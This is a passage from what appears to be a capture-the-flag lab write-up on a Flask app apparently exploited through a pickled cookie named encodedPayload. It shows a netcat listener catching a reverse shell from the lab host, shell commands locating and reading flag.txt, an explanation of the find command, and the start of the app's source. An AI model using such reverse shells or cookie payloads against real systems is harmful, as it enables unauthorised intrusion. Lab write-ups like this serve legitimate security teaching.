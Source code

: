 ```
──(kali㉿kali)-[~/Downloads]
└─$ nc -lvnp 4444     
listening on [any] 4444 ...
connect to [10.17.24.66] from (UNKNOWN) [10.10.141.188] 36242
$ whoami
cmnatic
$ ls
app.py
Dockerfile
index.html
launch.sh
__pycache__
requirements.txt
static
templates
user.html
venv
vimexchange.sock
wsgi.py
$ pwd
/home/cmnatic/app
```

- After a while trying to find file flag.txt, i can see it is in the dir /home/cmnatic

```
$ find / -type f -name flag.txt 2>/dev/null
/home/cmnatic/flag.txt
$ cat /home/cmnatic/flag.txt
4a69a7ff9fd68
```

- **`find`**: This command is used to search for files and directories in a directory hierarchy.
- **`/`**: Specifies the starting point for the search, which is the root directory.
- **`type f`**: Specifies that the search should only include regular files (not directories, symbolic links, etc.).
- **`name flag.txt`**: Specifies that the search should match files with the exact name "flag.txt".
- **`2>/dev/null`**: Redirects error messages (file not found, permission denied, etc.) to **`/dev/null`**. This is useful to avoid displaying error messages for directories where the user doesn't have permission to access.

[Notation] Last time, i try to reload the page http://10.10.141.188/myprofile so many times but it didn’t work even though i input the right cookie data in encodedPayload cookie. But incidentally, i try to click feedback and it load the code for us. 

[?] Why this happens?

- In /bin/sh, i cat the backend [app.py](http://app.py) to see clearly

```
$ cat app.py
from flask import Flask, redirect, render_template, make_response, request
from datetime import datetime

import uuid
import pickle
import base64

import sys

app = Flask(__name__)

@app.route("/")
def root():
    return render_template('index.html')

........
```